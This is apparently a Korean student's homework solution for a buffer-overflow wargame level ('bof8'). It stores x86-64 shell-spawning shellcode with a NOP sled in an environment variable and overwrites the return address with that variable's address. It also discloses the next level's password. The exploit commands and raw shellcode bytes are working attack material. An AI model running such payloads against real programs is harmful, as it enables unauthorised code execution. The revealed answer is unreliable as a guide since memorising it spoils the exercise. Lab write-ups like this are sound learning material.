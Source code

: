 # hw4(bof8)

> bof8
1. 환경변수에 SHELLCODE를 추가해준다.
2. buf~ret까지의 크기를 구하고
3. ret에 환경변수 'SHELLCODE'의 주소값을 overwrite 하는 bof 값 입력

>> 답(bof9.pw): 4191ae56

>> 풀이:

    1. 환경변수 'SHELLCODE' 추가, RET SLED 사용
    export SHELLCODE=`python -c "print '\x90'*20+'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'"`

    2. bof8실행 후 아무 값 입력하고 환경변수 SHELLCODE의 주소 확인
    SHELLCODE 주소값: 0x7fffffffeeb5

    b.p.1: vuln의 프롤로그 끝난 후 $rsp - 8, $rbp - 8
    -> buf~sfp 까지의 크기 // buf size = 8, sfp크기 = 8 -> 16bytes

    buf와 sfp에 쓰레기값 + 'SHELLCODE' 환경변수의 주소 입력

    
    (python -c "print 'x'*16+'\xb5\xee\xff\xff\xff\x7f'";cat) | ./bof8
